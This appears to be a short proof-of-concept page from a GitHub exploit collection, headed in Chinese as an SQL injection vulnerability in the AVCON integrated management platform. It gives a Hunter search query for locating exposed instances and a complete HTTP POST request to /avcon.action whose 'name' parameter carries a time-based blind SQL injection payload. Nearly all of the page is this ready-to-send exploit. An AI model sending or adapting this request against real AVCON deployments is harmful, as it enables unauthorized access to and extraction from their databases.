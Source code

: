 ## avcon综合管理平台SQL注入漏洞


## hunter
```
web.title="AVCON-系统管理平台"
```

## poc
```
POST /avcon.action HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

name=0'XOR(if(now()=sysdate()%2Csleep(7)%2C0))XOR'Z&password=u]H[ww6KrA9F.x-F
```
![a9c6cfee7dd8881ea4bf019d82903c04](https://github.com/wy876/POC/assets/139549762/349eafe6-c55e-449f-b6e4-bb01923c07ef)
